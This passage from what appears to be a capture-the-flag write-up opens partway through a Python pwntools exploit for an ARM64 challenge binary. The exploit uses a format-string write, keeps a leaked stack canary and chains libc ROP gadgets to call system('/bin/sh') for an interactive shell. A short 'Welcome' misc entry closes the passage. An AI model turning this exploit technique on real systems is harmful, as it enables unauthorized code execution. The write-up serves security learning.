 ```python!
payload = f'%{vuln3_read_offset & 0xFFFF}c%14$hn'.encode()
payload = payload.ljust(0x10, b"\x00")
payload += p64(stack - 0x40)

r.recvuntil(b'your spell: ')
r.sendline(payload)

# ==================== vuln3 ======================== #

libc.address = libc_base

first_gadget = libc.search(asm('ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;')).__next__()
second_gadget = libc.search(asm('mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;')).__next__()

# r.recvuntil(b'Give me your name: ')

payload = b''
payload += 128 * b'A'		# pad
payload += p64(canary)
payload += p64(0)
payload += p64(first_gadget)
payload += (8 * 3) * b'C'
payload += p64(second_gadget)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += (8 * 2) * b'D'
payload += p64(libc.sym.system)

r.sendline(payload)

r.interactive()
```

![image](https://hackmd.io/_uploads/B1QGl6ogyg.png)


## MISC
### Welcome
![image](https://hackmd.io/_uploads/ryTnC9ieke.png)

It's a damn adorable challenge! I love itttttttttttttttttt <3
